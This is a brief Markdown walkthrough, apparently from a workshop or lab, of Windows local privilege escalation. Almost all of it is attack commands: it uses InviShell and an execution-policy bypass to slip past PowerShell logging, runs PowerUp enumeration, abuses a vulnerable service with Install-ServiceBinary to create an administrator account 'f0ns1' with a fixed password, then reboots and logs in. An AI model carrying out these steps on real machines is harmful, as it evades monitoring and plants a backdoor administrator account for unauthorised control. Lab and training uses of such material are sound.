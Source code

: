 # EXPLOITATION

## Enumeration
```
C:\Users\insider>Z:\InviShell\RunWithRegistryNonAdmin.bat
```
```
PS C:\Users\insider> powershell -ep bypass
```
```
PS C:\Users\insider> Import-Module Z:\PowerUp.ps1
```
```
PS C:\Users\insider> Invoke-AllChecks -Verbose
```

## Privilege Escalation
```
Install-ServiceBinary -Name 'workshop_vuln' -Command 'net user f0ns1 Passw0rd1! /add && net localgroup Administradores f0ns1 /add'
```
```
shutdown /r /t 0
```


## Access

```
f0ns1:Passw0rd1!
```
![login new user](resources/login_f0ns1.png)
